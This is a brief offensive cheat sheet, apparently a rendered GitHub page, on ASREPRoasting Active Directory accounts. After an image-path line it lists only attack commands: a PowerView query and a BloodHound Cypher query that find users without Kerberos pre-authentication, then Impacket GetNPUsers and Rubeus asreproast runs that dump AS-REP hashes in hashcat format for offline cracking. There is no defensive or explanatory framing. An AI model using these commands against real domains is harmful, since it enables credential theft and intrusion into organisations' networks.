 # ASREPRoast

## Tools: Rubeus , Impacket-GetNPUsers

### ASREPRoast

## Find ASREPRoastable users (need creds)

 - Get-DomainUser -PreauthNotRequired -Properties SamAccountName

 - MATCH(u:User {dontreqpreauth:true}). (c:Computer). p=shortestPath((u)-[*1..]->(c)) RETURN p (Bloodhound cypher query)

## Find ASREP hash

 - Impacket-GetNPUsers DOMAIN/ -usersfile USERNAMES.TXT -format hashcat -dc-ip DC_IP -dc-host DC.DOMAIN.LOCAL -outputfile HASHES.DOMAIN.TXT

 - Rubeus.exe asreproast /format:hashcat


